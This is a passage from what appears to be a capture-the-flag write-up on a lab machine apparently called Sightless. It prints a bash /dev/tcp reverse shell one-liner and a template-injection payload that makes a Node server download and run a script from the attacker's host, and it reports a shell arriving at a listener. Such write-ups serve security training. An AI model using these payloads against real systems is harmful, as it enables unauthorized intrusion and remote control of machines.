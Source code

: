 After a lot of thinking, I concluded that `netcat` was maybe not installed on the machine so tried to use alternatives like the default `reverse shell` command `sh -i >& /dev/tcp/10.10.16.28/4444 0>&1` but still did not work. Saved the script into a file  and started a `web server`.  

<br/> 
<img src="/img/sightless_screenshots/Pasted image 20240911121307.png" alt="1" style="width:700px; height:auto;">
<br/>

Changed the command to be executed and waited for a connection.  


&#123;&#123; process.mainModule.require('child_process').exec('wget http://10.10.16.11:8000/rev.sh && bash rev.sh') &#125;&#125; 


We get a response.  

<br/> 
<img src="/img/sightless_screenshots/Pasted image 20240911121935.png" alt="1" style="width:700px; height:auto;">
<br/>

And a response at our listener.  

<br/> 
<img src="/img/sightless_screenshots/Pasted image 20240911122027.png" alt="1" style="width:700px; height:auto;">
<br/>
